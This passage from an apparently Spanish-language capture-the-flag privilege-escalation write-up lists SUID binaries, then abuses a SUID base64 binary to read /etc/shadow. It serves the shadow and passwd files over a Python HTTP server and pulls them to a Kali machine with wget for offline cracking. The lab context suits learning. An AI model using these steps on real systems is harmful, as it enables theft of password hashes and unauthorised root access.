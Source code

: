 ```
/usr/bin/newgrp
/usr/bin/chsh

/usr/bin/base64

/usr/bin/su
/usr/bin/fusermount
/usr/bin/mount
karen@ip-10-10-38-105:/$ 

```

#### obtenemos shadow y passwd para pasarles el unshadow, los transferimos

```

> victima
> 
karen@ip-10-10-38-105:/$ cd /tmp

karen@ip-10-10-38-105:/tmp$ /bin/base64 /etc/shadow | /bin/base64 -d > shadow
karen@ip-10-10-38-105:/tmp$ cat /etc/passwd > passwd
karen@ip-10-10-38-105:/tmp$ ls
passwd    systemd-private-a3239205556844e1aac2f7de358adad1-systemd-logind.service-ssdEhi
shadow    systemd-private-a3239205556844e1aac2f7de358adad1-systemd-resolved.service-RAjt6i
snap.lxd  systemd-private-a3239205556844e1aac2f7de358adad1-systemd-timesyncd.service-MT96Ze
karen@ip-10-10-38-105:/tmp$ 

karen@ip-10-10-38-105:/tmp$ python3 -m http.server 7070
Serving HTTP on 0.0.0.0 port 7070 (http://0.0.0.0:7070/) ...
10.6.13.236 - - [17/Oct/2024 14:32:42] "GET /shadow HTTP/1.1" 200 -
10.6.13.236 - - [17/Oct/2024 14:32:46] "GET /passwd HTTP/1.1" 200 -


> Kali

wget http://10.10.38.105:7070/passwd

--2024-10-17 09:34:39--  http://10.10.38.105:7070/passwd
Connecting to 10.10.38.105:7070... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1954 (1.9K) [application/octet-stream]
Saving to: ‘passwd’

passwd                 100%[============================>]   1.91K  --.-KB/s    in 0s      

2024-10-17 09:34:39 (173 MB/s) - ‘passwd’ saved [1954/1954]

wget http://10.10.38.105:7070/shadow
--2024-10-17 09:34:43--  http://10.10.38.105:7070/shadow
Connecting to 10.10.38.105:7070... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1364 (1.3K) [application/octet-stream]
Saving to: ‘shadow’

shadow                 100%[============================>]   1.33K  --.-KB/s    in 0s      

2024-10-17 09:34:43 (65.0 MB/s) - ‘shadow’ saved [1364/1364]
```
